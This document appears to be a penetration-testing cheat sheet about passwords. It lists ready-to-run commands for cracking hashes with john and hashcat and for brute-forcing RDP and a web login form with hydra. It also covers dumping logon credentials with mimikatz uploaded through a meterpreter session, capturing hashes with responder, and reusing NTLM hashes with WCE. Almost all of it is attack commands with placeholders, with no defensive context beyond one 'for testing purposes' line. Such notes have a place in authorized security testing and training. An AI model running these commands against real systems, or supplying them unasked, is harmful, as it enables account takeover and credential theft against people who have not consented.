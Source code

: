 # Passwords


### Cracking
john -w=/usr/share/wordlists/rockyou.txt --format=<format> <hashes>

hashcat -m 5600 -a 1 <hashes>  -r /usr/share/hashcat/rules/combinator.rule

hydra -L <username list> -P <password list> -M <target list> <protocol>
hydra -l <username> -p <password> <target> <protocol>
hydra -l root -P /usr/share/wordlists/rockyou.txt -M 3389.txt rdp

hydra -l administrator -p admin -M /root/Desktop/target.txt http-form-post "/teamquest/cgi-bin/login:username=^USER^&pass=^PASS^:S=302 Found" -s 2780
hydra -l administrator -p admin 10.0.0.10 http-form-post "/teamquest/cgi-bin/login:username=^USER^&pass=^PASS^:S=302 Found" -s 2780
------------------------------------------------------------------------------------------------------

### Dump Hashes

fgdump, pwdump6, pwdump7, smbexec, wce

mimikatz
meterpreter > upload /usr/share/mimikatz/Win32/mimikatz.exe .
meterpreter > upload /usr/share/mimikatz/Win32/mimikatz.sys .
meterpreter > upload /usr/share/mimikatz/Win32/sekurlsa.dll .
meterpreter > shell
mimikatz.exe
priviledge::debug
sekurlsa::logonpasswords
------------------------------------------------------------------------------------------------------

### Sniffing

responder -i <IP> -wrf
------------------------------------------------------------------------------------------------------

### Windows Credential Editor (WCE)

How do I change my current NTLM credentials?
wce.exe -s <username>:<domain>:<lmhash>:<nthash>

How do I create a new logon session and launch a program with new NTLM credentials?
wce.exe -s <username>:<domain>:<lmhash>:<nthash> -c <program>

How can I generate NTLM hashes with WCE? (for testing purposes)
wce.exe -g <cleartext password>

How can I write hashes obtained by WCE to a file?
wce.exe -o hashes.txt
